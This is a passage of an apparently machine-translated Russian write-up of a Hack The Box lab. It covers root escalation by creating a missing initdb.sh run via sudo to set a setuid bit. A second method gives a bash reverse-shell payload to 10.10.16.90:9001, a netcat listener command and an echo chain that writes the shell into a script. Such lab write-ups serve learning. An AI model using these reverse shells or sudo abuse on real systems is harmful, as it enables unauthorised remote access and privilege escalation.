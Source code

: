 Кажется, этот файл заслуживает внимания:

![[Pasted image 20240427233832.png]]

Похоже, это может быть так же просто, как изменить этот файл?

Ну, на самом деле я нигде не нашел файла initdb.sh, даже с помощью команд поиска.

Возможно, его не существует?

Что ж, давайте попробуем сделать его и посмотрим, что получится. Может быть, это сработает?

![[Pasted image 20240427233857.png]]

Мы создаем пользовательский бит, который должен позволить пользователю получить root. Теперь сделаем его исполняемым:

![[Pasted image 20240427233909.png]]

Хм

![[Pasted image 20240427233925.png]]

Я собираюсь повторить свои шаги и исправить свою ошибку.

О, Боже. Очень простой вопрос. Ты видел это?

Я забыл запустить bash.

![[Pasted image 20240427234001.png]]

![[Pasted image 20240427234012.png]]

Хорошая нежная комната, изучающая файлы cookie/CSRF/XSS и общее злоупотребление sudo. Приятное развлечение и разумный вызов — на этот раз я чувствую, что HTB получил достаточный рейтинг!

## Второй способ

я собираюсь использовать [https://www.revshells.com/](https://www.revshells.com/) и netcat в качестве прослушивателя

сначала я использовал эту полезную нагрузку

```
sh -i >& /dev/tcp/10.10.16.90/9001 0>&1
```

NC слушатель

```
nc -nvlp 9001  
```

у меня не сработало, и там написано, что я не авторизован или что-то в этом роде, но поскольку мы уже можем запускать некоторые команды, такие как echo, ls и другие, я попробую создать полезную нагрузку через запрос

```
echo '#!/bin/bash' >verse_shell.sh && echo 'sh -i >& /dev/tcp/10.10.16.90/9001 0>&1' >>verse_shell.sh
```
